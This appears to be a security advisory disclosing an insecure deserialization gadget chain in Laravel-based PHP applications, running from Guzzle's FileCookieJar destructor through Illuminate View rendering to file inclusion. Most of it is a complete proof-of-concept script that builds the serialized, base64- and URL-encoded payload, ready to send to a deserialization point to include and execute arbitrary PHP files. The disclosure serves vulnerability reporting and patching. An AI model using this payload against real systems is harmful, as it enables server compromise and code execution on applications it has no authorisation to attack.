 ### Summary
An insecure deserialization vulnerability could allow an attacker to include and execute arbitrary PHP files on the server.

### Details
The deserialization call chain is ：
GuzzleHttp\Cookie\FileCookieJar#__destruct()
->Illuminate\View\View#__toString()
->Illuminate\View\View#render()
->Illuminate\View\View#renderContents()
->Illuminate\View\View#getContents()
->Illuminate\View\Engines\PhpEngine#get()
->Illuminate\View\Engines\PhpEngine#evaluatePath()
->Illuminate\Filesystem\Filesystem#getRequire() 
This is where file inclusion can be achieved：
![image](https://user-images.githubusercontent.com/73411761/218930860-494652ff-22d6-40da-b370-2b47d07ce53c.png)

### PoC
```
<?php
namespace GuzzleHttp\Cookie{

    use Illuminate\View\FileViewFinder;
    use Illuminate\View\View;
    use Illuminate\View\Factory;
    use Illuminate\View\Engines\PhpEngine;
    use Illuminate\View\Engines\EngineResolver;
    use Illuminate\Filesystem\Filesystem;

    class CookieJar{
        private $cookies = [];
        function __construct() {
            $this->cookies[] = [];
        }
    }

    class FileCookieJar extends CookieJar {
        private $filename;
        function __construct() {
            parent::__construct();
            $this->filename = new View(new Factory(new EngineResolver(),new FileViewFinder(new Filesystem(),["./"])),new PhpEngine(new Filesystem()),1,"./info.php",["index"]);
        }
    }
}
namespace Illuminate\View{

    use Illuminate\Events\Dispatcher;
    use Illuminate\Filesystem\Filesystem;
    use Illuminate\View\Engines\EngineResolver;
    use Illuminate\View\Engines\PhpEngine;


    class FileViewFinder implements ViewFinderInterface{
        public function __construct(Filesystem $files, array $paths, array $extensions = null){}
    }
    interface ViewFinderInterface{}
    class Factory{
        protected $shared = [];
        public function __construct(EngineResolver $engines, ViewFinderInterface $finder)
        {
            $this->shared = [];
            $this->finder = $finder;
            $this->events = new Dispatcher();
            $this->engines = $engines;
        }
    }
    class View{
        protected $data;
        public function __construct(Factory $factory, PhpEngine $engine, $view, $path, $data = [])
        {
            $this->view = $view;
            $this->path = "The file to include";
            $this->engine = $engine;
            $this->factory = $factory;
            $this->data = [];
        }
    }
}
namespace Illuminate\View\Engines{

    use Illuminate\Filesystem\Filesystem;

    class PhpEngine{
        protected $files;
        public function __construct(Filesystem $files)
        {
            $this->files = $files;
        }
    }
}
namespace Illuminate\Filesystem{
    class Filesystem{

    }
}
namespace Illuminate\View\Engines{
    class EngineResolver{

    }
}
namespace Illuminate\Events{

    use Illuminate\Contracts\Events\Dispatcher as DispatcherContract;

    class Dispatcher implements DispatcherContract{

    }

}
namespace Illuminate\Contracts\Events{
    interface Dispatcher{};
}


namespace{

    use GuzzleHttp\Cookie\FileCookieJar;

    $pop = new FileCookieJar();
    echo urlencode(base64_encode(serialize($pop)));
}
```


### Impact
A deserialization vulnerability.
This vulnerability requires a deserialization point in the system to trigger, so the harm is not great.
Based on Laravel secondary development system.
